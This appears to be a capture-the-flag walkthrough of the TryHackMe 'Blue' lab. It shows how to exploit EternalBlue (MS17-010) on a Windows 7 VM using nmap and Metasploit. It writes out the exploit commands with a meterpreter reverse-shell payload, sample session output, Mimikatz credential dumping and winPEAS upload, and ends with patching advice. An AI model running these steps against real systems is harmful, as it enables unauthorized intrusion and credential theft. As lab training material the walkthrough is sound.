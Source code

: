 # TryHackMe: Blue – Walkthrough


Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)

Tools : Nmap, Metasploit Framework, SMB enumeration scripts


# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Post-Exploitation & Privilege Escalation

7: Capturing Flags & Room Questions

8: Mitigation & Hardening Tips

## 1. Overview & Setup

Join the VPN

sudo openvpn --config ~/Downloads/tryhackme.ovpn

Confirm connectivity

ip a            # Check your tun0 interface
ping 10.10.10.10  # Replace with the room's gateway to verify

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Full TCP Port Scan

nmap -p- -T4 -oN nmap/full-tcp-portscan.txt <TARGET_IP>

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

nmap -sC -sV -p 135,139,445,3389 -oN nmap/service-detect.txt <TARGET_IP>

-sC runs default scripts

-sV detects versions

### 2.3 SMB-Specific Enumeration

nmap -p445 --script smb-os-discovery,smb-vuln-ms17-010 -oN nmap/smb-enum.txt <TARGET_IP>

smb-os-discovery → OS details

smb-vuln-ms17-010 → checks EternalBlue vulnerability

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

msfconsole

Search for EternalBlue module

search ms17_010

Select the exploit

use exploit/windows/smb/ms17_010_eternalblue

Configure options

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

exploit

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : BLUE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64

## 6. Post-Exploitation & Privilege Escalation

Check for credentials with Mimikatz (if available)

meterpreter > load kiwi
meterpreter > creds_all

Upload & run winPEAS

meterpreter > upload /root/tools/winPEAS/winPEAS.exe C:\Windows\Temp\\
meterpreter > execute -f C:\Windows\Temp\winPEAS.exe

Review output

Look for unquoted service paths, weak permissions, etc.

## 7. Capturing Flags & Room Questions

User flag

cat C:\Users\Guest\Desktop\user.txt

Root flag (SYSTEM)

cat C:\Users\Administrator\Desktop\root.txt

Answer key questions in the room:

What SMB version is running?

What exploit did you use?

What is the OS build number?

What is the content of each flag?

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior


🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!
